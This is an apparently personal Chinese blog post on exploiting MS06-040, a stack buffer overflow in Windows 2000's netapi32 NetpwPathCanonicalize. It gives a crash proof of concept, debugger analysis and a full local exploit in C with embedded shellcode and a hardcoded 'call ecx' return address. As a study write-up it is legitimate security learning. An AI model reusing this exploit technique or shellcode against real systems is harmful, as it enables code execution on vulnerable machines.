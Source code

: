 ```yaml
---
layout:		post
title:		RPC入侵: MS06-040
author:		wooy0ung
tags:		windows
category:  	exploit
---
```



>[分析环境]  
>系统: Windows 2000 sp4  
>编译器: VC++ 6.0  
>调试器: OllyDbg 1.10  
<!-- more -->


### 0x00 前期准备

编译POC, 运行

```
#include"stdafx.h"
#include <windows.h>

typedef void (*MYPROC)(LPTSTR, char *, int, char *, long *, bool);

int main()
{	
	char path[0x320];
	char can_path[0x440];
	int maxbuf=0x440;
	char prefix[0x100];
	long pathtype=44;

	HINSTANCE LibHandle;
	MYPROC Trigger;

	char dll[ ] = "./netapi32.dll";
	char VulFunc[ ] = "NetpwPathCanonicalize";
	LibHandle = LoadLibrary(dll);
	Trigger = (MYPROC) GetProcAddress(LibHandle, VulFunc);

	memset(path,0,sizeof(path));
	memset(path,'a',sizeof(path)-2);
	memset(prefix,0,sizeof(prefix));
	memset(prefix,'b',sizeof(prefix)-2);
	
	(Trigger)(path,can_path,maxbuf,prefix ,&pathtype,0);
	FreeLibrary(LibHandle);

	return 0;
}
```

程序崩溃掉, OD附加上去, EIP被"aaaa"填充

![](/assets/img/exploit/2018-01-02-ms06-040-rpc-exploit/0x00.png)

执行文件拖到OD, 单步来到call netapi32.NetpwPathCanonicalize, 再往下程序崩掉

![](/assets/img/exploit/2018-01-02-ms06-040-rpc-exploit/0x01.png)

跟进NetpwPathCanonicalize函数, 执行MSVCRT.wcscat, 当retn时程序再次崩溃

![](/assets/img/exploit/2018-01-02-ms06-040-rpc-exploit/0x02.png)

此处应该就是崩溃点, 在IDA定位到该函数

![](/assets/img/exploit/2018-01-02-ms06-040-rpc-exploit/0x03.png)

copy"bbbbbb..."串到栈上

![](/assets/img/exploit/2018-01-02-ms06-040-rpc-exploit/0x04.png)

"bbbbb..."串尾部拼接一个0x005C

![](/assets/img/exploit/2018-01-02-ms06-040-rpc-exploit/0x05.png)

继续拼接"aaaaa..."串, 覆盖返回地址

![](/assets/img/exploit/2018-01-02-ms06-040-rpc-exploit/0x06.png)


### 0x01 本地exploit

观察在retn时, ecx指向缓冲区的开始

![](/assets/img/exploit/2018-01-02-ms06-040-rpc-exploit/0x07.png)

可以把shellcode布置在"bbbbbb...."串里, 用一条call/jmp ecx跳到栈上执行

```
// ms06_040_exp.cpp : Defines the entry point for the console application.
//

#include "stdafx.h"
#include <windows.h>

typedef void (*MYPROC)(LPTSTR, char *, int, char *, long *, bool);

char shellcode[]=
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7";

int main()
{	
	char path[0x320];
	char can_path[0x440];
	int maxbuf=0x440;
	char prefix[0x100];
	long pathtype=44;
	
	HINSTANCE LibHandle;
	MYPROC Trigger;

	char dll[] = "./netapi32.dll";
	char VulFunc[] = "NetpwPathCanonicalize";

	LibHandle = LoadLibrary(dll);
	Trigger = (MYPROC) GetProcAddress(LibHandle, VulFunc);

	memset(path,0,sizeof(path));
	memset(path,0x90,sizeof(path)-2);
	memset(prefix,0,sizeof(prefix));
	memset(prefix,'a',sizeof(prefix)-2);
	memcpy(prefix,shellcode,113);

	path[0x318]=0xF9;		// call ecx
	path[0x319]=0x52;
	path[0x31A]=0x18;
	path[0x31B]=0x75;

	(Trigger)(path,can_path,maxbuf,prefix,&pathtype,0);
	FreeLibrary(LibHandle);

	return 0;
}
```

pwn~

![](/assets/img/exploit/2018-01-02-ms06-040-rpc-exploit/0x08.png)